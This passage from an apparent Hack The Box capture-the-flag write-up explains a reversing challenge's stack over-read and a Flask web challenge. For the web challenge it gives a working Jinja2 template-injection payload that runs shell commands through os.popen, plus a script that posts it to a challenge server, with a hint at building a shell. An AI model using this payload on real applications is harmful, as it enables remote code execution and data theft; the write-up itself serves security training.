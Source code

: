 In order to get back the flag, we need to first understand what's happening here. The most important part is the `*(char *)((long)&local_38 + (long)i)` pointer magic. Let's look at it step-by-step:

- `(long)&local_38`: get the memory address of `local_38` and convert it to `long`
- ` + (long)i`: convert `i` to `long` and add it to the previous memory address
- `*(char *)`: convert the value at the calculated addres to `char`

This is basically the same as `local_38[i]`, with one difference. Since this is a `C` string, it should be `null` terminated, but it's not. This means, that once we reach the end of `local_38`, our loop will continue with the next memory address on the stack, and will do it as long as, it's not a `null` byte. Luckily, we also know the next values on the stack (`locacal_30`, `uStack_2c`, `uStack_28`, `local_24`, `local_10`). Since we know all the required values, we can write a script to get the flag (don't forget the `+ -1` part in the original program).

```python
>> stack = ['716e32747c435549', '6760346d', '6068356d', '75327335', '7e643275346e69']
>>> ''.join(''.join(chr(b-1) for b in bytes.fromhex(s))[::-1] for s in stack)
'HTB{s1mpl3_fl4g_4r1thm3t1c}'
```

# Web

## Trial by Fire

We get the source code for a web application written in `Python`, using `Flask` as `Jinja2` templating. If we go through the source code, we can find that the `/battle-report` endpoint is using `render_template_string`, which is known to be vulnerable to `Server-Side Template Injection` (`SSTI`). Since the received data is not sanitized, we can simply write our payload to get the content of the flag.

```python
{{ request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}
```

We can also write a script to post our data directly to the vulnerable page (or even expand it for a semi-interactive shell):

```python
#!/usr/bin/env python3

import requests

URL = "http://83.136.250.155:54814"
PAYLOAD = "{{ request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}"

def submit_battle_report():
    data = {
        "damage_dealt": PAYLOAD,
        "damage_taken": 100,
        "spells_cast": 0,
        "turns_survived": 3,
        "outcome": "defeat",
        "battle_duration": 20.714
    }
    headers = { "Content-Type": "application/x-www-form-urlencoded" }
    return requests.post(f"{URL}/battle-report", data=data, headers=headers)

def extract_result(html):
    for l in html.split('\n'):
        if "Damage Dealt:" in l:
            return l.strip()[54:-11]

print(extract_result(submit_battle_report().text))
```